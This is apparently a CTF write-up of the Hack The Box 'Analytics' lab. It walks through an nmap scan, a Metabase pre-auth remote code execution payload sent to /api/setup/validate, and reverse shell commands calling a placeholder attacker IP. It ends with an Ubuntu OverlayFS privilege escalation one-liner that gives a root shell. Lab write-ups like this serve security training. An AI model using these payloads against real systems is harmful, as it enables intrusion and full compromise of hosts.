 # This is a writeup for the Analytics CTF from htb labs

## Recon

#### Nmap scan "the fastest and most effective scan for CTF labs"

```
sudo nmap 10.10.11.233 --min-rate 3000 -sS -sV -sC -Pn -T5 


Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-14 11:04 BST
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Analytical
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.65 seconds
```

<!-- we got two open ports 22 for ssh and 80 for a webserver labeled "Analytical" -->

## Enum

#### this page "http://data.analytical.htb/auth/login?redirect=%2F" seems to have a vuln of severe RCE at  metabase version 0.46.6

###### when we make an inital request to this page 

![Screenshot at 2023-10-14 11-23-13](https://github.com/shanksbeard/Analytics-HTB-writeup/assets/147916074/7e627aa3-029b-405b-a996-3a3b01472c88)

<!--  it gave us a setup-token that enables us to  post our RCE payload to the api "/api/setup/validate" -->

## Exploit 1 : RCE

#### Start a netcat listener 

```nc -lnvp 4444``` <!-- or any port of your choice --> 

### Here is the payload request made to this api /api/setup/validate 
```
POST /api/setup/validate HTTP/1.1
Host: 10.10.11.233 
Content-Type: application/json

{
 "token": "put the setup token here ",
 "details": {
  "is_on_demand": false,
  "is_full_sync": false,
  "is_sample": false,
  "cache_ttl": null,
  "refingerprint": false,
  "auto_run_queries": true,
  "schedules": {},
  "details": {
   "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec(Put your RCE revshell payload just here)\n$$--=x",
   "advanced-options": false,
   "ssl": true
  },
  "name": "test",
  "engine": "h2"
 }
}
```

#### for me it seems this basic busybox revshell payload to work just fine

```busybox nc <Attacker IP add> 4444 -e sh ```  <!-- remember you can put any unstandard  port. --> 

###### we could do this trick to stabilize the revshell and also good  to replace python pty command
```
echo 'sh -i >& /dev/tcp/<Attacker IP add>/4445 0>&1' > /tmp/a.sh
bash /tmp/a.sh
```
#### after some basic enumeration got the /bin/ash users as well some ssh creds at env variables 
```
root:x:0:0:root:/root:/bin/ash
metabase:x:2000:2000:Linux User,,,:/home/metabase:/bin/ash
META_USER=metalytics
META_PASS=*************** # to get the password practice what we have done.
```
-------------------------------------------------------------------------------------------------------------------------
```
ssh metalytics@analytical.htb 
metalytics@analytical.htb's password: 
metalytics@analytics:~$ 
```
###### Great, well done !!!

###### the root seems to be active 

```
root:x:0:0:root:/root:/bin/bash
metalytics:x:1000:1000:,,,:/home/metalytics:/bin/bash
```
## Privesc:

<!-- the kernel version seems to be vuln "6.2.0" to these OverlayFS CVEs "CVE-2023-2640 CVE-2023-32629 " -->
```
# here is a little hint from the creators "overlay on /var/lib/docker/overlay2/957463a5867e5" thank you htb labs team <3
# you can check out the vuln in fully here "https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability"
```

### here is the payload
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

## just put it as command line in the shell and 
```
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```
## boom you are the root !!! you made it.
![Screenshot 2023-10-14 at 13-04-00 Owned Analytics from Hack The Box!](https://github.com/shanksbeard/Analytics-HTB-writeup/assets/147916074/0e72d213-c97a-44cc-87e9-10d5bcb4eb26)
